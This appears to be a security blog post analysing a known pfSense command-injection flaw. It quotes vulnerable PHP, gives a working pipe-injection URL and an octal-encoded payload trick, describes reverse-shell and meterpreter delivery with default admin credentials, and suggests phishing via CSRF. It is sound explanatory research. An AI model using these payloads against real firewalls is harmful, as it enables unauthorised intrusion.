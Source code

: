 ```yaml
---
layout: post
title:  "pfSense Authenticated Arbitrary Code Execution Exploit"
subtitle: "PoCs"
date:   2018-01-14 00:00:00 -0500
author: "coastal"
header-img: "images/site-resources/pfsense-code-exec-header.jpg"
---
```


### introduction

Recently, I came across a code execution vulnerability that affected pfSense firewalls running the community edition software version 2.2.6 or earlier. When I was working on exploiting the firewall, I found a [post](https://www.security-assessment.com/files/documents/advisory/pfsenseAdvisory.pdf) from 2016 from Security Assessment detailing how an authenticated user can perform arbitrary remote code execution through exploiting the `graph` **GET** parameter of the `status_rrd_graph_img.php` page. I found out that a PR had just been made in the last week to [the metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9362) to integrate this exploit. However, with a personal goal set to develop my own exploits and not use metasploit, I decided that I had to make a PoC exploit in `python3`.

### code review

The vulnerability stems from a lack of proper parameter filtering. If we look at the code in a [vulnerable version](https://github.com/pfsense/pfsense/blob/57627d9f3152f6ea984d3cdff71fa6e888784701/usr/local/www/status_rrd_graph_img.php) of `status_rrd_graph_img.php` starting on line 58, we can see the specific filtering rules that cause the vulnerability:

```
/* this is used for temp name */
if ($_GET['graph']) {
	$curgraph = str_replace(array("<", ">", ";", "&", "'", '"'), "", htmlspecialchars_decode($_GET['graph'], ENT_QUOTES | ENT_HTML401));
} else {
	$curgraph = "custom";
}
```

The blacklist misses the `|` character. We can see how this results in command execution by seeing what happens when we specify that we would like to use the `-throughput.rrd` database, starting on line 480:

```
elseif(strstr($curdatabase, "-throughput.rrd")) {
	/* define graphcmd for throughput stats */
	/* this gathers all interface statistics, the database does not actually exist */
	$graphcmd = "$rrdtool graph $rrdtmppath$curdatabase-$curgraph.png ";
	$graphcmd .= "--start $start --end $end --step $step ";
	$graphcmd .= "--vertical-label \"bits/sec\" ";
	$graphcmd .= "--color SHADEA#eeeeee --color SHADEB#eeeeee ";
	$graphcmd .= "--title \"" . php_uname('n') . " - {$prettydb} - {$hperiod} - {$havg} average\" ";
	$graphcmd .= "--height 200 --width 620 ";
```

An example of an injection that would lead to arbitrary code execution could be like so:

```
?database=-throughput.rrd&graph=file|echo whoami|sh|echo
``` 

When this input is parsed, the `$graphcmd` that is executed by the system becomes

```
rrdtool graph $rrdtmppath$curdatabase-file|echo whoami|sh|echo --start ...
```

i.e.

```
rdtool graph $rrdtmppath$curdatabase-file
```

```
echo whoami|sh
```

```
echo --start $start --end $end --step $step ...[truncated]...
```

whoops

### exploitation

While the incomplete filtering allows us to get code execution, we still have some issues with payloads, specifically ones that write to a temp file that is subsequently executed. In order to bypass that restriction, we can call the `printf` command with a payload that is octal encoded like so (example here is `whoami`):

```
$ printf '167\150\157\141\155\151'|sh
coastal
```

I built octal encoding and recursive `base64` wrapping of payloads into the exploit. There are two payloads built in to the exploit: a normal `php` reverse shell, and a `meterpreter` stager. The exploitation chain functions by first sending an obfuscated payload that writes the `php` shell or stager to a temp file in an initial **POST** request. This is then executed with a subsequent **GET** request to the filepath, triggering the reverse shell. Since the pfSense firewall runs on `php`, we use a `php`-based reverse shell and `meterpreter` stager to ensure payload execution compatibility with all deployments of the firewall.

**php reverse shell**

<img src="{{ site.baseurl }}/images/notes-tips-tricks/nc.gif">

**meterpreter stager**

<img src="{{ site.baseurl }}/images/notes-tips-tricks/msf.gif">

This exploit does require authentication, so you need to know a login to the firewall in order to perform the exploitation. The exploit is written with the default pfSense credentials baked in (`admin:pfsense`). If this login does not work, you will need to either determine the login credentials or integrate this exploit into a CSRF attack. CSRF protection is not built into the requests passed to `status_rrd_graph_img.php`. In the real world, that means that this arbitrary code execution could be performed by convincing an authenticated admin to click a payload link, perhaps through a phishing vector.

### base64 headaches

I had an arduous journey trying to get the `base64` payload obfuscation working. While not an inherent necessity, it is always nice to add another layer of protection to payload delivery. Unfortunately, I ran into some subtlety with how `python` and `php` process `base64` encoding and decoding.

**padding purgatory ahead**

Let's generate a test string that, when encoded with `python`'s `base64` library, requires padding.

```
>>> import base64
>>> base64.b64encode("test message here")
'dGVzdCBtZXNzYWdlIGhlcmU='
>>> base64.b64decode('dGVzdCBtZXNzYWdlIGhlcmU=')
'test message here'
```

We can see that encoding and decoding the string works as you would expect. However, when we take that padded `base64` encoded string and try to decode it with `php`'s `base64` library it doesn't go quite as smoothly.

```
$ echo '<?php print(base64_decode(dGVzdCBtZXNzYWdlIGhlcmU=)) ?>' > test.php
$ php test.php
PHP Parse error:  syntax error, unexpected '=', expecting ',' or ')' in /tmp/test.php on line 1
```

Interestingly, if we remove the padding from the `base64` encoded string that was generated in `python` and try to decode it with `php`'s library it decodes flawlessly.

```
$ echo '<?php print(base64_decode(dGVzdCBtZXNzYWdlIGhlcmU)) ?>' > test.php 
$ php test.php                                                            
PHP Notice:  Use of undefined constant dGVzdCBtZXNzYWdlIGhlcmU - assumed 'dGVzdCBtZXNzYWdlIGhlcmU' in /tmp/test.php on line 1
test message here
```

However, if we try to decode that trimmed `base64` string with `python`'s library, we get an exception

```
>>> base64.b64decode('dGVzdCBtZXNzYWdlIGhlcmU')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/base64.py", line 78, in b64decode
    raise TypeError(msg)
TypeError: Incorrect padding
```

As to the platform-specific reasons underlying these idiosyncrasies, I am not entirely sure. I can tell you that it is a fairly subtle bug to try to find, and wholly unexpected (at least for me). But, since the payload generation is in `python` and execution is in `php`, we can simply trim the padding from the generated `base64` string and wrap in in `php`'s `base64` library calls to get functional obfuscation and execution.

### summary

I hope this was an interesting post, and if you would like to check out / use my exploit PoC it is up on my [github](https://github.com/spencerdodd/pfsense-code-exec). Thanks!

-coastal
